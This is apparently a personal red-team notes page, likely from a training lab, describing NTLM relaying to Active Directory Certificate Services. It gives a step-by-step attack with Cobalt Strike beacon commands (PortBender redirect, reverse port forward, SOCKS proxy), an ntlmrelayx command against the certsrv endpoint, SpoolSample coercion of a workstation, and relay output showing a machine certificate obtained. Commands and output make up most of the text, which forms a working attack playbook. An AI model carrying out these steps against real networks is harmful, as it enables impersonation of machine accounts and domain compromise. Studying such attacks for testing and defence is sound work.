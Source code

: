 ```yaml
---
creation date: January 5th 2022
last modified date: January 5th 2022
aliases: []
tags: #📖
---
```


Primary Categories: [[01 - Operation]]
Secondary Categories:  [[02 - External]] - [[02 - Internal]]
Links: [[Privilege Escalation]]
Search Tag: #📖  

# [[NTLM Relaying to ADCS]]  

AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at `http[s]://<hostname>/certsrv`, and by default supports **NTLM** and **Negotiate** authentication methods.

In the default configuration, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controller location, relay the request to the CA and obtain a certificate for that DC, then use it to obtain a TGT.

Another aspect to be aware of is that you cannot relay authentication back to the original machine. If the CA is running on the DC 


As SYSTEM on a server/workstation:

-   Use PortBender to capture incoming traffic on port 445 and redirect it to port 8445.
-   Start a reverse port forward to forward traffic hitting port 8445 to the Team Server on port 445.
-   Start a SOCKS proxy for ntlmrelayx to send traffic back into the network.

```
beacon> PortBender redirect 445 8445
[+] Launching PortBender module using reflective DLL injection
                                            
Initializing PortBender in redirector mode
Configuring redirection of connections targeting 445/TCP to 8445/TCP

beacon> rportfwd 8445 127.0.0.1 445
[+] started reverse port forward on 8445 to 127.0.0.1:445

beacon> socks 1080
[+] started SOCKS4a server on: 1080

```

Start ntlmrelayx with proxychains (10.10.15.75 is DC-1.):

```
root@kali:~# proxychains ntlmrelayx.py -t http://10.10.15.75/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```

Next, use one of the remote authentication methods to force a connection from WKSTN-3 to the relay (10.10.17.25 is the server/workstation running your relay)(10.10.15.254 is the authentication you are getting).
```
beacon> execute-assembly C:\Tools\SpoolSample\SpoolSample\bin\Debug\SpoolSample.exe 10.10.15.254 10.10.17.25

[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
```

Look at kali for a base64 encoded ticket (output slightly trimmed for brevity).

```
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] HTTP server returned error code 200, treating as a successful login
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Generating CSR...
[*] CSR generated!
[*] Getting certificate...
 ...  OK
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] SMBD-Thread-4: Connection from CYBER/WKSTN-3$@127.0.0.1 controlled, attacking target http://10.10.15.75
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] Authenticating against http://10.10.15.75 as CYBER/WKSTN-3$ SUCCEED
[*] GOT CERTIFICATE! ID 5
[*] Base64 certificate of user WKSTN-3$:
MIIQ3Q[...snip...]NzkQ==

```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: January 5th 2022 (02:26 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
